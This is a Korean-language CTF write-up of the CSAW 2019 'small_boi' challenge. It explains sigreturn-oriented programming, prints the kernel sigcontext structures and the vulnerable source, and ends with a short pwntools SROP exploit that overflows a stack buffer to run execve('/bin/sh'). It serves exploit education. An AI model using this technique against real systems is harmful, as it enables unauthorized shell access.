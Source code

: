 ```yaml
---
emoji: 🍗
title: CSAW 2019 small_boi 취약점 분석
author: Zer0Luck
date: '2020-09-18 07:10:20'
categories: CTF
tags: pwn CSAW CTF
---
```


# 취약점 분석

> SROP 
> - 리눅스에서는 시그널이 들어오게 되면 커널 모드에서 처리한다.
> - 커널 모드에서 유저모드로 들어오는 과정에서 유저의 스택에 레지스터 정보들을 저장해 놓는다.
> - `rt_sigreturn` 은 이렇게 저장해놓은 정보들을 다시 돌려놓을 때 사용된다.
> 
> - 공격자가 `rt_sigreturn` 시스템 콜을 호출할 수 있고 스택을 조작할 수 있다면 모든 레지스터와 > 세그먼트를 조작할 수 있다.
> - `rt_sigreturn` 시스템 콜을 사용하여 익스폴로잇 하는 기법을 SigReturn Oriented Programming > (SROP)라고 한다.

## restore_sigcontext

```cpp
static int restore_sigcontext(struct pt_regs *regs,
			      struct sigcontext __user *sc,
			      unsigned long uc_flags)
{
	unsigned long buf_val;
	void __user *buf;
	unsigned int tmpflags;
	unsigned int err = 0;
	/* Always make any pending restarted system calls return -EINTR */
	current->restart_block.fn = do_no_restart_syscall;
	get_user_try {
#ifdef CONFIG_X86_32
		set_user_gs(regs, GET_SEG(gs));
		COPY_SEG(fs);
		COPY_SEG(es);
		COPY_SEG(ds);
#endif /* CONFIG_X86_32 */
		COPY(di); COPY(si); COPY(bp); COPY(sp); COPY(bx);
		COPY(dx); COPY(cx); COPY(ip); COPY(ax);
#ifdef CONFIG_X86_64
		COPY(r8);
		COPY(r9);
		COPY(r10);
		COPY(r11);
		COPY(r12);
		COPY(r13);
		COPY(r14);
		COPY(r15);
         ...
}
```

- `COPY`, `COPY_SEG` 매크로를 사용하여 레지스터및 세그먼트를 복원한다.

## sigcontext-32bit

```cpp
struct sigcontext
{
  unsigned short gs, gsh;
  unsigned short fs, fsh;
  unsigned short es, esh;
  unsigned short ds, dsh;
  unsigned long edi;
  unsigned long esi;
  unsigned long ebp;
  unsigned long esp;
  unsigned long ebx;
  unsigned long edx;
  unsigned long ecx;
  unsigned long eax;
  unsigned long trapno;
  unsigned long err;
  unsigned long eip;
  unsigned short cs, __csh;
  unsigned long eflags;
  unsigned long esp_at_signal;
  unsigned short ss, __ssh;
  struct _fpstate * fpstate;
  unsigned long oldmask;
  unsigned long cr2;
};
```

## sigcontext-64bit

```cpp
struct sigcontext
{
  __uint64_t r8;
  __uint64_t r9;
  __uint64_t r10;
  __uint64_t r11;
  __uint64_t r12;
  __uint64_t r13;
  __uint64_t r14;
  __uint64_t r15;
  __uint64_t rdi;
  __uint64_t rsi;
  __uint64_t rbp;
  __uint64_t rbx;
  __uint64_t rdx;
  __uint64_t rax;
  __uint64_t rcx;
  __uint64_t rsp;
  __uint64_t rip;
  __uint64_t eflags;
  unsigned short cs;
  unsigned short gs;
  unsigned short fs;
  unsigned short pad0;
  uint64_t err;
  __uint64_t trapno;
  __uint64_t oldmask;
  __uint64_t cr2;
  extension union
    {
      struct _fpstate * fpstate;
      __uint64_t __fpstate_word;
    };
  __uint64_t __reserved1 [8];
};
```

- 해당 `sigcontext` 구조체를 바탕으로 SROP 기법으 이용하여 공격을 진행할 수 있다.


## 문제 small_boi.c

```cpp
/* I wonder what you have to do with this sigreturn gadget */
volatile void one_true_gadget(void)
{
    asm("mov $0xf, %eax;" // sigreturn
        "syscall;");
}

asm("poprax:"
    "pop %rax;"
    "ret;");

char *useful_string = "/bin/sh";
char useful_byte = 'i';

int main()
{
    char buf[32];

    asm("mov %0, %%rsi;"
        :
        : "r"(buf)
        : "%rsi");
    asm("xor %rax, %rax;"
        "xor %rdi, %rdi;"
        "mov $0x200, %rdx;"
        "syscall;");
    return 0;
}

void _start()
{
    main();
    asm("xor %rdi, %rax;"
        "mov $60, %rax;"
        "syscall;");
}
```

- 문제 바이너리를 분석해 보면 `sigreturn` , `/bin/sh`, `syscall` 등 익스를 하기에 필요한 명령들이 있는 것을 확인할 수 있으며
- 카니리 보호 기법이 걸려 있지 않아 버퍼 오버플로우를 발생시켜 return 주소를 sigreturn call 하여 SROP를 할 수 있다.
- main 함수에서 read 함수를 바탕으로 0x200 바이트를 입력 받기 때문에 버퍼 오버플로우가 발생한다.

## SROP

```cpp
binshell = 0x4001ca
si_return = 0x400180
syscall = 0x400185

frame = SigreturnFrame()

frame.rax = constants.SYS_execve
frame.rdi = binshell
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall

payload = p8(0x90)*40+p64(si_return)+str(frame)
sl(payload)
irt()
```

- SROP를 하기 위해서는 구조체의 값을 일일이 다 맞쳐서 짜야 한다는 점이 있지만 pwntools의 도구를 사용하여 손 쉽게 해당 레지스터에 필요한 값을 줄 수 가 있다.
- 우리는 execve 시스템 콜을 사용하여 /bin/sh 주소를 인자로 사용하여 쉘을 획득하면 된다.

![./0.png](./0.png)

```toc
```